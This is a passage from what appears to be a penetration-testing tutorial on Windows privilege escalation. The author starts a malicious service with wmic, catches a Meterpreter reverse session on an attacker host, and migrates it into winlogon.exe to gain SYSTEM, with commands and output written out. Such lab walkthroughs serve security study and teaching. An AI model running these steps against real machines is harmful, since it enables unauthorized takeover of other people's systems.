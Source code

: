 \[cce lang="dos"\]C:\\Users\\homer>wmic service ose call startservice\[/cce\]

You should see similar output when you run this command.

\[cce lang="dos"\]Executing (\\\\WIN-B5JHUDECH2P\\ROOT\\CIMV2:Win32\_Service.Name="ose")->startservice()\[/cce\]

Once you've started the service now it's time to hop back over to your metasploit command prompt to see if we get our meterperter command prompt, you should see the following.

\[bash\] \[\*\] Sending stage (752128 bytes) to 192.168.134.134 \[\*\] Meterpreter session 1 opened (192.168.134.135:80 -> 192.168.134.134:49173) at 2012-03-22 23:18:56 -0400

meterpreter > \[/bash\]

Anytime you get a meterpreter command prompt back that's usually a win but wait everything is not as it seems. After about 30 - 40 seconds I see that my meterpreter session ended.

\[cce lang="bash"\]\[\*\] Meterpreter session 1 closed.  Reason: Died\[/cce\]

Back on the windows machine there's also some output on the command prompt.

\[cce lang="dos"\] Method execution successful. Out Parameters: instance of \_\_PARAMETERS { ReturnValue = 7; }; \[/cce\]

The [return value of 7](http://msdn.microsoft.com/en-us/library/windows/desktop/aa393660(v=vs.85).aspx) means that the request timed out. So bummer we got this far had a meterpreter prompt, which gives us lots of post exploitation goodness, but lost everything. Don't throw in the towel there is a way around this situation. During those 30 - 40 seconds that we have the meterpreter command prompt we can migrate to another process. The concept of migrating is exactly what it sounds like, instead of hooking into our ose.exe malicious executable service we can hop to another process that is already running with system privileges. First thing you'll want to do is list all the processes running on the windows machine to determine the PID of a process that we can migrate to, once again wmic to the rescue.

\[cce lang="dos"\]wmic process list brief | find "winlogon"\[/cce\]

Here you'll want to determine the PID of the winlogon.exe process and the fourth column of this output is the PID of the process. Winlogon.exe is a popular executable to migrate to because it's always present and runs as the system user. You could easily migrate to another process that runs as system and to determine this you can [run the task manager](http://en.wikipedia.org/wiki/Windows_Task_Manager#Launching_Task_Manager) and look for the user that is associated with the process. If at first you don't see this make sure to click ["show process from all users"](http://www.sevenforums.com/system-security/164638-csrss-winlogon.html). Once you have the PID of the winlogon.exe restart the service by running the wmic service command, ose.exe in this case, then quickly migrate to the winlogon.exe PID within meterpreter. Below is the command within meterpreter to migrate to another process.

\[bash\] meterpreter > migrate 460 \[\*\] Migrating to 460... \[\*\] Migration completed successfully. meterpreter > \[/bash\]

Now we've successfully migrated to a stable process as the system user with a restricted user, this was our ultimate goal. We can determine our current privilege within meterpreter with the following command.

\[bash\] meterpreter > getuid Server username: NT AUTHORITY\\SYSTEM meterpreter > \[/bash\]

At this point you have full control of the operating system and you can leverage all the [post exploitation](https://docs.google.com/document/d/1U10isynOpQtrIK6ChuReu-K1WHTJm4fgG3joiuz43rw/edit?hl=en_US&pli=1) goodness that you can get your hands on. I don't want to go into all the options and features of what to do once you've gained system access to a windows device I'll leave that to other folks or a different discussion.
